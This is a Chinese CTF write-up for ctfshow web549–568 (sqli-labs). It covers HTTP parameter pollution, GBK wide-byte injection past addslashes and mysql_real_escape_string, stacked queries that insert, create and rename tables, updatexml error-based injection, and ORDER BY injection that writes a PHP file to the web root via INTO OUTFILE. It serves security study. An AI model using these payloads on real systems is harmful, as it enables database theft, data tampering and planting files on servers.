这里会把第一个id参数提取出来并返回，随后还会获取一个id参数，不过最后是对java_implimentation函数获取的id参数进行白名单校验的，而第二个获取的id参数才是最终进入查询语句的，所以这里其实就是**HTTP 参数污染**



```html
?id=1&id=-1' union select 1,(select flag4s from ctfshow.flags),3%23
```

# web550

## #双引号闭合HTTP参数污染



没啥区别，就是换成了双引号闭合

# web551

## #双引号括号闭合HTTP参数污染



这次是双引号括号

# web552

## #宽字节注入

传入单引号发现会有转义，并且会将转义后的内容拼接查询

单引号转义可以尝试用宽字节注入绕过

其实很简单，就是传`%df'`进去，因为是先进行的转义，所以单引号会被转义成`\'`，url编码就是`%df%5c%27`，但是GBK编码会把`%df%5c`当成一个GBK双字节字符，所以此时就是汉字`運`，后面的单引号就能正常作用了

```sql
/?id=-1%df'union select 1,2,(select flag4s from ctfshow.flags)%23
```

然后看看源码

```php
// take the variables 
if(isset($_GET['id']))
{
$id=check_addslashes($_GET['id']);
//echo "The filtered request is :" .$id . "<br>";

//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 

mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

先进行一个检测转义`check_addslashes`

```php
function check_addslashes($string)
{
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
      
    
    return $string;
}
```

最主要的是这段代码

```php
mysql_query("SET NAMES gbk");
```

设置启用mysql的GBK编码，所以能使用宽字节注入

# web553&554

## #宽字节注入

其实和上题没啥区别，主要是在源码上

```php
function check_addslashes($string)
{
    $string= addslashes($string);    
    return $string;
}
```



直接用addslashes函数进行转义处理了，web552中其实就是把这个函数的实现自定义了一下，554的话就是换成了POST

# web555

## #十六进制/limit语句绕过单引号引用字符串

额其实没啥用，因为这里是数字型，所以闭合单引号不需要绕过，不过后面在爆表名字段名的时候需要引用库名表名，此时就可以用十六进制去绕过，或者用limit 1去限制输出

在 MySQL 中，**十六进制字面量会被自动转换为字符串或数字**



# web556&557

## #宽字节注入GET&POST

这次的话检测函数换成了mysql_real_escape_string

```php
$id=check_quotes($_GET['id']);

function check_quotes($string)
{
    $string= mysql_real_escape_string($string);    
    return $string;
}

```



绕过也一样的

557也一样，只不过是换成了POST

# web558-561

## #字符型单引号闭合堆叠注入GET



这里用的是`mysqli_multi_query`函数，`mysqli_multi_query()` **允许一次执行多条以分号分隔的SQL语句**，所以存在堆叠注入

```php
/?id=20';insert into users values (20,(select user()),"test")--+
```


```php
/?id=21';insert into users values (21,(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),"test")--+
/?id=22';insert into users values (22,(select group_concat(column_name)from information_schema.columns where table_name='flags'),"test")--+
/?id=23';insert into users values (23,(select flag4s from ctfshow.flags),"test")--+
```

或者可以直接把内容写到users

```php
?id=1';CREATE TABLE flags SELECT * FROM ctfshow.flags;rename table users to a;rename table flags to users;
```

当然也可以直接打union注入或者报错注入，此外其他还有DNS外带和日志文件注入可以参考国光师傅的 https://www.sqlsec.com/2020/05/sqlilabs.html#Less-38

不过需要注意由于字段的长度有限制，所以最后直接爆flag是爆不出来的，需要分割一下内容分别写入数据

```php
?id=-1';insert into users(id,username,password) values (77,(select substring(group_concat(flag4s),1,5) from ctfshow.flags),"test")--+
```

这也算是回答了之前第一次刷的时候碰到的问题

web559的话就是换成了数字型的，web560是单引号括号闭合，web561又变成数字型了

# web562&563

## #POST报错注入

是一个登录页面，源码中看是可以执行多个语句的，需要传入username和password，但是在源码中是对用户名进行了转义过滤的，所以只有password存在注入点，但靠password也没有回显内容没法正常打堆叠注入

不过启动了报错信息的输出，所以打报错注入

```php
login_password=-1' or (select updatexml(1,concat(0x7e,(select version()),0x7e),1))--+&login_user=1&mysubmit=Login
```



后面正常打就行了

web563的话就是换成了单引号括号闭合，没啥区别

# web564-568

## #order by注入

sql语句是这样的

```php
$id=$_GET['sort'];
$sql = "SELECT * FROM users ORDER BY $id";
```

打order by注入，order by后面能跟if子语句做判断，可以打盲注或者报错注入，或者打procedure analyse 参数后注入写文件

```php
1 into outfile "/var/www/html/less46.php" lines terminated by 0x3c3f70687020706870696e666f28293b3f3e
```

然后访问less46.php就能出来了

web565的话换成了字符型单引号闭合，也是可以打盲注或者报错注入的

web566的话关闭了错误信息的打印，没法打报错注入了，只能打盲注

web567和568我打的注入写文件，源码我也找乱了emmm

# 总结

二刷了，对sql注入有点淡忘了，不过这次的话更深入了一些，对某些地方之前不理解的也理解到了，还是很不错的一次复习
